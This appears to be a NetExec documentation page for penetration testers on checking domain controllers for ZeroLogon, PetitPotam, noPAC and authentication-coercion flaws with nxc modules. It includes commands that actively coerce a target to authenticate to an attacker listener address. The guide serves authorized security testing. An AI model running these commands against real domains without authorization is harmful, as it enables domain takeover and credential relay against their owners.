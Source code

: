 ```yaml
---
description: Check if a DC is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### PetitPotam

`nxc smb <ip> -u '' -p '' -M petitpotam`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for this one
{% endhint %}

Or, try them all at once! Just list each one: `-M zerologon -M petitpotam`

# Scan for Coerce Vulnerabilities

You can check coerce vulnerabilities like Petitpotam, DFSCoerce, PrinterBug, MSEven, ShadowCoerce with the coerce_plus module.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If you find a vulnerability, you can use the `coerce_plus` module to exploit it.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

If you want use all exploit methods add `ALWAYS=true` option.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also use the `coerce_plus` module to check for one coerce method.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of the 'METHOD' option you can use 'M'. Also the short name 'L' instead of the 'LISTENER' argument.

This also applies to the names of vulnerabilities in the method.

-M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

-M=pr // Matches printerbug

-M=pe // Matches petitpotam

-M=dfs // Matches dfscoerce

{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
